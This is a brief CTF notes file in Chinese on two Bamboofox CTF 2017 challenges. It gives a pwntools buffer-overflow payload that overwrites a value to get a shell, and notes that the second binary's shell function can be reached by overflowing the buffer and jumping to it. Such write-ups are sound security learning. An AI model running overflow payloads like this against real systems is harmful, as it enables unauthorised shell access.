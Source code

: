 # Bamboofox CTF 2017 - Notes

## water-impossible

透過 overflow 蓋值來 get shell ， payload:
```
$ (python -c 'from pwn import * ; print "a"*28 + p32(0x1a0a)';cat -) | ./vul
```

## infant-gotoheaven

有一個函數 main.weird 會開 shell，所以只要 overflow 跳過去就好

(不會反編譯 golang QQ)